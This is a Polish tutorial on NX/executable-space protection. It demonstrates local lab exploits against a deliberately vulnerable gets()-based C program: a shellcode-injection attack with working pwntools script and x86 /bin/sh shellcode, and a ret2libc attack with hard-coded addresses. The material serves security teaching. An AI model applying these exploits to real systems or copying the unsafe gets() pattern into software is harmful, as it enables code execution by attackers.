

# Executable space protection

## 1. Opis 

`Executable space protection`, w bezpieczeństwie systemów i oprogramowania, odnosi się do oznaczania regionów pamięci jako `niewykonywalen` - `non-executable`. W wyniku takiego oznaczenia wykonywanie kodu maszynowego z regionu tak oznaczonego zakończy się wzniesieniem wyjątku. Technologia, która najczęściej odpowiada za zabezpieczenie stacka to `NX bit`, która jest funkcją `Memory Managment Unit`. Jest to technologia wspierana sprzętowo, dlatego też używanie tej technologi nie zmienia wydajności aplikacji. W proceorach AMD technologia nazwana jest jako "Enhanced Virus Protection", u Intela natomiast jako "XD (eXecute Disabled) bit". MMU jest kontrolowane przez kernel - to on decyduje jakie elementy kodu dostają uprawnienia `execution`. Można więc stwierdzić, że to system kontroluje czy stack jest wykonywalny, lub nie.

Taka metoda zabezpieczania aplikacji powoduje, że w przypadku ataków BOF, podczas których najczęściej wstrzykujemy kod na stos, który następnie chcemy wykonać jest niemożliwe. Przykład takiego exploitu zadenmonstruję w punkcie `2.1`.


NX jest jedną z wielu sposobów zapobiegania przed atakami typu BOF. Nie jest to jednak metoda, która całkowicie zapobiega takim atakom - można powiedzieć że żadna technika nie jest w stanie w 100% zapewnić bezpieczeństwo aplikacji. 

Wykorzystywanie samej metody NX w zabezpieczeniu aplikacji powinno być jedna z wielu metod. NX zapobiega przed wykonaniem kodu maszynowego ze stosu, jednakże należy pamiętać, że dalej jesteśmy w stanie modyfikować stos za pomocą niebezpiecznych funkcji typu `gets()` lub `strcpy()`. Procesor widząc obszar pamieci oznaczony jako `non-executable` wznosi tylko wyjątek i powoduje koniec programu. Przykładem ataku, który pomimo niewykonywalnego stosu jest w stanie exploitować program  jest `ret2libc`. Celem takiego ataku nie jest wstrzyknięcie i wykonanie złośliwego kodu, a wywołanie funkcji bibliotecznych podczas wychodzenia z funkcji, wktorej nastąpiło przepełnienie - więcej o tym ataku w punkcie `2.2`.

W przypadku użycia najnowszego `gcc` metoda NX jest defaultowo włączona. Istnieje jednak możliwość wyłączenia tej metody poprzez dodanie odpowiedniej flagi podczas kompilacji, a mianowicie `-z execstack`. W przypadku użycia kompilatora `clang` metoda NX jest również defaultowo włączona. Równiez isnitje możliwosć wyłączenia tej metody, poprzez flagę `-fsanitize=safe-stack`.


## 2.1 Przykładowa aplikacji - atack `shellcode injection`


Przyjęte założenia:

* kompilacja na 32-bit = `-m32`
* ASLR - wyłączone = `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
* Wyłączone NX = `-z execstack`
* Wyłączone Stack Cannary = `-fno-stack-protector`


Kodpodatnej aplikacji. Podatność znajduje się w funkcji `vuln`, w której wywołujemy funkcję `gets()` - nie sprawdza ile bitów podajemy do zapisania i potrafi zapisać bity nawet poza długością przeznaczonego do tego buffora. 

```
//gcc vuln.c -o vuln -m32 -fno-stack-protector -no-pie -z execstack

#include <stdio.h>
#include <string.h>

void vuln()
{
	char buffer[16];
	gets(buffer);
	printf("Buffer = %p", buffer);
}

int main(int argc, char *argv[])
{
	vuln();
	return 0;
}
```

Aby dokonać exploitacji takiego programu należy wstrzyknąć kod, który chcemy wykonać na stos, a następnie nadpisać adres powrotu w funkcji `vuln()` na adres naszego kodu. Zatem eksploitację można podzielić na następujące punkty:

* znaleźć padding, który należy zastosować aby nadpisać `eip`
* podać adres wstrzykniętego kodu
* wstrzyknąć odpowiedni shellcode

Aby odnaleźć odpowiedni padding, można posłużyć się patternem `AAAABBBBCCCCDDDDEEEE...`. Dzięki takiemu inputowi w łatwy sposób w `gdb` można sprawdzić jaki adres został nadpisany na rejestr 	`eip`. W przypadku tej aplikacji jest to `HHHH`, zatem padding to `AAAABBBBCCCCDDDDEEEEFFFFGGGG`. 


Następnym krokiem jest odnalezienie adresu `buffer`. Adres jest stały, ponieważ ASLR został wyłączony. Adres uzyskuję przez `printf()`. Alternatywnie można to zrobić, poprzez użycie `gdb` i sprawdzenie adresu na stosie. Poniżej widać, że adres buffora to `0xffffd180`.


Shellcode można pobrać ze strony [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-752.php). W Moim przypadku używam shellcodu w postaci ASM, napisany dla architektury x86.

```asm
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 11
int 0x80
```


Ostatnim elementem potrzebnym do udanej eksploitacji to policzenie odpowiedniego adresu, na który należy wskazać, aby shellcode wykonał się. Do adresu buffora należy dodać długośc paddingu oraz długość adresu `eip`, dzięki temu wyliczony adres bedzie wskazywać na shellcode.

```python
padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

buf_ptr = 0xffffd1d0

eip = buf_ptr + len(padding) + 4
```

Finalny exploit wygląda następująco:


```python
#!/usr/bin/env python3

from pwn import *

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

buf_ptr = 0xffffd1d0

eip = buf_ptr + len(padding) + 4

shellcode = """
    xor ecx, ecx
    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 11
    int 0x80
 """

send = padding + p32(eip) + asm(shellcode)

p = process('./vuln')
p.sendline(send)
p.interactive()
```


W wyniku działania exploitu otrzymujemy shella. 


Dla aplikacji z włączonym zabezpieczeniem exploit nie działa. Dostajemy sygnał `SIGSEGV` - próba dostępu do zabronionej pamieci.




## 2.2 Przykładowa aplikacji - atak `ret2libc`

Tak jak wspomniałem w `wady i zalety`, pomimo właczonej ochorny `NX`, dlaej istnieje moźliwość exploitacji aplikacji - poprzez atak `ret2libc`. W tym ataku, zamiast wykonywać shellcode ze strosu, wykorzystamy funkcje biblioteczne z bibioteki `libc`.

Przyjęte założenia:

* kompilacja na 32-bit = `-m32`
*   ASLR - wyłączone = `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
*   Włączone NX
*   Wyłączone Stack Cannary = `-fno-stack-protector`

Kod podatnej aplikacji. Tak jak w poprzedniej wersji, podatnością jest `gets()`. Zmienione zostały jedynie flagi kompilacji.

```c
//gcc vuln-protected.c -o vuln-protected -m32 -fno-stack-protector -no-pie

#include <stdio.h>
#include <string.h>

void vuln()
{
        char buffer[16];
        gets(buffer);
        printf("Buffer = %p", buffer);
}

int main(int argc, char *argv[])
{
        vuln();
        return 0;
}
```


Aby dokonać exploitacji takiego programu należy:
* wyliczyć padding
* odnaleźć w adres syscall `system()`
* (opcjonalnie) odnaleźć adres syscalla `exit()`
* odnaleźć adres `/bin/sh`

Padding został odnaleziony w taki sam sposób, jak w poprzednim ataku.

Do odnalezienia adresu `system()` posłuzyłem się `gdb`. Po zbreakowaniu się na funkcji `vuln()` i rozpoczęciu programu mogłem sprawdzić adres `system()` w aplikacji używając do tego `print system`.


Aby odnależć adres `/bin/sh` posłużyłem się komendą `ldd vuln-protected`, która zwraca jaki linker używa aplikacja wraz z adresem poczatku w pamieci linkera. Użyłem równiez koemndy `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'` aby odnależć adres 	`/bin/sh` w libc. 


Następnie aby obliczyć adres `/bin/sh` w aplikacji należy dodać do adresu `libc.so.6` offset `/bin/sh`.


Aby sprawdzić, czy odpowiednio wyliczyłem adres w `gdb` sprawdziłem co znajduje się pod tym adresem. Jak widać poniżej, poprawnie udało się obliczyć adres.


Syscall `exit()` nie jest obowiązkowy, bez tego dalej uda się nam dostać shella. Jednakże wychodząc z shella otrzymamy `SIGSEGV`. Aby wyjśc z shella bez tego sygnału, należy umieścić na stacku równiez adres `exit()`. Adres ten odnalazłem w identyczny sposób, jak adres `system()`. 

Zatem finalny wysyłany payload jest postaci:

padding + system_addres + exit_addres + bin_sh_addres

Kod exploita:

```python
#!/usr/bin/env python3

from pwn import *

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

system_addres = 0xf7e10040 

exit_addres = 0xf7dcb000- 0x18c33c

bin_sh_addres = 0xf7f5733c

send = padding + p32(system_addres) + p32(exit_addres) + p32(bin_sh_addres) 

p = process('./vuln-protected')
p.sendline(send)
p.interactive()
```


Jak widać na poniższym screenshot-cie, udało się dostać shella, pomimo włączonego zabezpieczenia NX.


## 6. Podsumowanie

Metoda zabezpieczania stosu przed jego wykonaniem jest dobrą metodą, utrudnia exploitacje programu. Niestety jednak, nie zapewnie 100% skuteczności. Metoda ta powinna być jedną z wielu sposobów na chronienie aplikacji.
